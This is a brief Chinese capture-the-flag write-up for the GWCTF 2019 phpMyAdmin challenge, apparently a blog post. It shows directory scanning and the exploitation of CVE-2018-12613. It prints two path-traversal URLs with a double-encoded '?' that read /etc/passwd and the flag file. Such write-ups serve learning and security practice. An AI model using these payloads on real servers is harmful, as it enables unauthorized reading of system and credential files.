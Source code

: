 # [GWCTF 2019]我有一个数据库

过来毛都没有

直接dirsearch扫一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/e8a3493f54ebc2ddb645df0843a0e653.png" alt="" style="max-height:203px; box-sizing:content-box;" />


发现存在 phpadmin 我们直接访问一下

啥都没有 但是给我们了 phpadmin的版本

我们去搜搜看是否存在漏洞





<img src="https://i-blog.csdnimg.cn/blog_migrate/8cb619c530364ef794bb2a8a18e6c6a5.png" alt="" style="max-height:754px; box-sizing:content-box;" />


 [phpMyAdmin 4.8.1后台文件包含漏洞（CVE-2018-12613）_phpmyadmin cve-2018-12613漏洞获取webshell_zhang三的博客-CSDN博客](https://blog.csdn.net/qq_45521281/article/details/105780497) 

发现还真有 我们直接复现即可

```cobol
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/892defa75ec9b5267892018e4347bfc0.png" alt="" style="max-height:170px; box-sizing:content-box;" />


```cobol
phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../flag
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fdb6b61986a7a4438f4d84e20e6cbe8f.png" alt="" style="max-height:193px; box-sizing:content-box;" />